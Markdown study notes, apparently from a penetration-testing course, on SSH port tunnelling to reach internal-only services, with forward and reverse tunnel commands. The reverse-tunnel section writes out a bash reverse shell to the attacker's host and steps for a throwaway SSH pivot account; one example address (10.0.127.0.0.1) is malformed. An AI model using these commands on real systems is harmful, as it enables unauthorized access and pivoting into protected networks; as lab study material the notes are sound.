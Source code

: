 # Port Tunneling

## Lecture Notes: What is Port Tunneling?

* a host may have a vulnerable service that is only available internally
  * bound to localhost
  * firewalls or filtering devices
* can use another service (ex. SSH) to create forwarding from a specific port or address to the session to use that session as a "tunnel"
  * can use SSH from attacker to target
  * can use reverse shell from attacker to target, then SSH from target to attacker

## Activity Notes: Single Port Tunneling

### Forward Tunnel

* SSH into target host with below command to create tunnel
  * can then access internal resources on Kali host with 127.0.0.1:\[bound port]
  * \-N means don't execute a remote command
  * \-L creates port binding
    * 0.0.0.0 is local address for accepting all connections
    * 8888 is local bound port
    * 9999 is remote port that the vulnerable service is running on

```
ssh -N -L 0.0.0.0:8888:[target IP]:9999 [username]@[target IP]
(example) curl http://10.0.127.0.0.1:8888
```

### Reverse Tunnel

* if you can't initially access SSH on the target but can get a reverse shell
* create NC listener on Kali -> create bash reverse shell on target -> SSH from target to Kali
  * can create SSH user
  * 8888: Kali port bound
  * 9999: port vulnerable service is running on

```
# Kali
nc -nvlp 9999
# target
bash -i >&/dev/tcp/[Kali IP]/9999 0>&1
# Kali
sudo useradd -m -s /usr/bin/bash throwaway
sudo passwd throwaway
# target
ssh-keygen -N "" -C throwaway -f throwaway
cat throwaway.pub
# Kali
su throwaway
cd
mkdir .ssh
cd .ssh
nano authorized_keys
# paste throwaway.pub from target in
chmod 700 .
chmod 600 authorized_keys
sudo systemctl start sshd
# target
ssh -o StrictHostKeyChecking=no -T -R 8888:localhost:9999 throwaway@[Kali IP] -i throwaway
# Kali
curl http://127.0.0.1:8888
```
